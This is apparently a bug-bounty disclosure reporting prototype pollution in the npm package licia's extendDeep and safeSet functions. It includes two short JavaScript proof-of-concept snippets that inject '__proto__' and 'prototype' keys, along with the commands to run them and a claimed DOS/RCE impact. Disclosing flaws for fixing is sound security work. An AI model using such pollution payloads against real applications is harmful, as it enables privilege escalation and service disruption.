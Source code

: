 # Description
licia package is vulnerable to prototype pollution issue 
files can be found in  https://github.com/liriliri/licia/blob/master/src/e/extendDeep.js & https://github.com/liriliri/licia/blob/master/src/s/safeSet.js#L46
# Proof of Concept 
1. Creating poc filed
```js
var utils = require('licia');
var src = {};
let object = utils.extendDeep({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'));
console.log(object.prototype.isAdmin);
```

```js
var licia = require('licia');
var src = {};
licia.safeSet(src, "__proto__.polluted", "pwned!");
console.log(polluted);
```

2. Execute command npm install licia
3. Execute command node poc.js
* https://drive.google.com/file/d/1Ef61xgYB6Tzq1We_OiitWUqne0H9skGe/view?usp=sharing
# Impact
Prototype pollution which could lead to DOS and RCE
# Checklist
- [x] _Created and populated the README.md and vulnerability.json files_
- [x] _Provided the repository URL and any applicable [permalinks]([https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files](https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files))_
- [x] _Defined all the applicable weaknesses ([CWEs]([https://cwe.mitre.org/](https://cwe.mitre.org/)))_
- [x] _Proposed the CVSS vector items i.e. User Interaction, Attack Complexity_
- [x] _Checked that the vulnerability affects the latest version of the package released_
- [x] _Checked that a fix does not currently exist that remediates this vulnerability_
- [x] _Complied with all applicable laws_
